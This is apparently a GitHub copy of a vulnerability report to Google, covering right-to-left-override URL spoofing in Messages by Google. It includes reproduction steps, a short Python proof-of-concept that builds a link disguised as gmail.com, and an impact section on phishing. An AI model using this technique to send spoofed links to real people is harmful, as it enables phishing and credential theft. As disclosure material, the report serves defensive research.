 # Google-sms-app-domain-spoofing
A copy of bug report to Google involving RTLO url spoofing within their default sms application.

Status:Unpatched

Summary: Messages by Google URL spoofing via RTLO

Product: Messages by Google

URL: play.google.com/store/apps/details?id=com.google.android.apps.messaging

Vulnerability type: Other

Details
Vulnerability Details:

Within Messages by Google an attacker is capable of rendering spoofed URLs via rtlo encoding. This allows a remote unauthenticated attacker to send authentic looking links that appear 
as any domain. With the use of subdomains an attacker is capable of faking document types such as pdf(fdp), txt(txt), jpg(gpj), png(gnp), etc.

Steps to reproduce:

Register “reverse” domain and build site. example: "nigol-resu.cloud/U/moc.liamg" = gmail.com/U/doulc.user-login

1. modify rtlo.py for usage with your domain
2. python3 rtlo.py  
4. Copy URL (on pc copy the string to txt file, move file to phone) or run in python environment on android device(copy string from Qpython environment)  
5. Paste entire string to Messages 
6. Send payload

POC script:

################################################################################### #!/usr/bin/env python

import sys

_SpoofUrl = 'gmail.com'

_RealUrl = 'nigol-resu.cloud'

_SubDir = 'U'

_RTLO = (u'\u202e')

_SpoofUrl = _SpoofUrl[::-1] _SubDir = _SubDir[::-1]

print(_SpoofUrl+'/'+_SubDir)

_NewUrl = _SpoofUrl+'/'+_SubDir

print(_NewUrl)

sys.stdout.write(' ' + _RTLO + (_RealUrl + '/' + _SubDir + '/' + _SpoofUrl) +'\n') 

#################################################################################################

Limitations:

Currently there is a 2̶8̶ character limit for spoofed URLs before formatting issues arise when pasting into messages. I believe with a little more effort the character limit can be raised.

UPDATE:URL length format issues are affected by screen size. Pasting and sending url when app is in "landscape" mode removes formatting issues and allows for longer urls(38?).

Attack scenario
Impact:

This simple exploit allows a remote attacker to impersonate high level domains.
Usage of said exploit for spam, information gathering(ip logging/browser fingerprinting), phishing top level domains, and single click exploits is highly likely. 
This exploit has a large attack surface, with 1 billion installs listed on the Google play store and the low technical effort needed to run, the probability of 
this being used in the wild is highly likely. Paired with an open-source 2fa phishing framework, this low complexity exploit becomes highly dangerous to the Google android user base.
